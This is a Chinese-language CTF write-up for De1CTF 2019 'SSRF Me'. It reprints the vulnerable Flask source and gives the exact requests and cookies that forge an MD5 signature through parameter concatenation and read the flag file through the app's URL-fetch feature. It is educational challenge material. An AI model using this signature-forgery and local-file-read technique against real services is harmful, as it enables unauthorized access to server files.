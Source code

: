 # [De1CTF 2019]SSRF Me
![](<./img/Pasted image 20221214153844.png>)

---
首页长这样

![](<./img/Pasted image 20221214154030.png>)

心肺停止，你python都能代码压缩的吗
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
import imp

imp.reload(sys)

app = Flask(__name__)
secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                    result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
                if result['code'] == 500:
                    result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
            return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.request.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.request.unquote(request.cookies.get("action")) # Get action from cookie
    param = urllib.request.unquote(request.args.get("param", "")) # Get param from url query
    sign = urllib.request.unquote(request.cookies.get("sign")) # Get sign from cookie
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.request.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param): # param should not start with gopher or file
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```
格式化代码比读代码还累.jpg

这波是吃了文化的亏，`python2`的`urlopen`原来不指定协议的时候默认就是`file`协议QAQ

总体思路就是利用`getSign`拼接顺序的漏洞绕过`Task.checkSign`和`geneSign`共同构成的对可用`action`的限制

令`param='flag.txtread'`，通过`geneSign`拼接而成的`md5(secret_key + 'flag.txtreadscan')`同指定`param='flag.txt'` `action='readscan'`相同

---
**获取`Sign`**
```php
/geneSign?param=flag.txtread
```
> 61dc9e0bbd275404f5bc301cf7b2ebde

---
**获取`flag`**
```php
/De1ta?param=flag.txt
```

**`Cookie`**
```http
Cookie: action=readscan; sign=61dc9e0bbd275404f5bc301cf7b2ebde
```
> {"code": 200, "data": "flag{6bbd3cad-1afd-4883-948c-70061755f1f3}\n"}
